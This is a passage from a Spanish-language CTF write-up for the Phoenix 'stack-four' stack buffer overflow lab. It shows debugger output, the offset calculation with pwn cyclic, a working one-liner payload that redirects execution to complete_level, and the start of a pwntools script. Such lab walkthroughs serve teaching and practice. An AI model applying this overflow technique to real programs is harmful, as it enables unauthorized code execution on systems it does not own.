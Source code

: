 ```c
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161617861616177
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "stack-four", stopped, reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

con el comando `info frame` podemos confirmar esto y ver el valor del rip que en este caso es  **rip = 0x6161617861616177** el mismo que nos devuelve el binario

```c
gef➤  info frame
Stack level 0, frame at 0x7fffffffe648:
 rip = 0x6161617861616177; saved rip = 0x61616179
 called by frame at 0x7fffffffe650
 Arglist at 0x7fffffffe638, args: 
 Locals at 0x7fffffffe638, Previous frame's sp is 0x7fffffffe648
 Saved registers:
  rip at 0x7fffffffe640

```


para calcular el offset donde se sobrescribe el **saved return address** vamos a hacer nuevamente de la herramienta pwn cyclic con el valor que tenemos, lo realizamos con el comando `pwn cyclic -l 0x6161617861616177` y vemos que nos responde 88, es decir, debemos enviar 88 bytes antes de la dirección de **complete_level()**

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix]
└─# pwn cyclic -l 0x6161617861616177
88
```

enviamos el payload y la dirección de complet_level que vimos previamente  **0x000000000040061d  complete_level** pero en little-endian que sería **\x1d\x06\x40** y con esto resolvemos el reto.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A" * 88 + "\x1d\x06\x40"' | ./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

**Exploit con Pwntools**

Creamos un script en Python3 para automatizarlo:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/4_stack-four]
└─# cat Remote_exploit.py 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ import time
   4   │ 
   5   │ # Conectar al proceso remoto
   6   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
```